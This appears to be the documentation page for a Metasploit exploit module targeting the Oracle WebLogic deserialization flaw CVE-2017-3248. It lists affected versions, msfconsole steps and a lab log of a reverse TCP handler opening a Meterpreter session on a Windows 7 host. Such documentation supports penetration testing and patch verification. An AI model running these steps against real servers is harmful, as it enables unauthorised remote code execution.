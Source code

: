 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.1 are vulnerable to a deserialization vulnerability (CVE 2017-3248) in the core Components subcomponent due to unsafe deserialization of Java objects by the RMI registry and produce a JRMP connection from the target, which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.
## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.1.
## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_unicastref`
 3. `set rhosts <rhost>`
 4. `set rport <srvport>`
 5. `exploit`
 6. `sessions -i 1`
## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > exploit
 [*] Exploit running as background job 17.

 [*] Started reverse TCP handler on 192.168.192.136:4444 
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] 192.168.192.6:7001 - Sending payload to client: 192.168.192.6
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 9 opened (192.168.192.136:4444 -> 192.168.192.6:49283) at 2018-12-14 11:45:44 -0800
 [*] 192.168.192.6:7001 - Server stopped.
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > sessions -i 9
 [*] Starting interaction with 9...

 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows

 ```
